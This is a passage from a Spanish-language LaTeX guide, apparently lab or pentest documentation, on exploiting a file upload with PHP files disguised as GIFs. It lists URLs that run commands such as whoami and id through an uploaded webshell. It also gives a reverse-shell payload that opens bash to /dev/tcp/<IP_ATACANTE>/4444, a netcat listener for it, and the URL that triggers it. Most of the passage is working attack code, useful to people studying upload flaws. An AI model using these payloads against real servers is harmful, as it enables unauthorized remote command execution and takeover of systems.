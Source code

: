 Ejemplos de uso:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=whoami
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=id
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=pwd
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=ip+a
\end{configbox}

\subsubsection*{Webshell con formulario}

Fichero recomendado:

\begin{configbox}
web_shell_bonita.gif.php
\end{configbox}

Contenido:


Esta variante resulta útil para documentar la ejecución de comandos desde el navegador.

\subsubsection*{Payload de reverse shell}

Fichero recomendado:

\begin{configbox}
shell.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'");
?>
\end{configbox}

Listener en Kali:

\begin{bashbox}
nc -lvnp 4444
\end{bashbox}

Ejecución:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
\end{configbox}


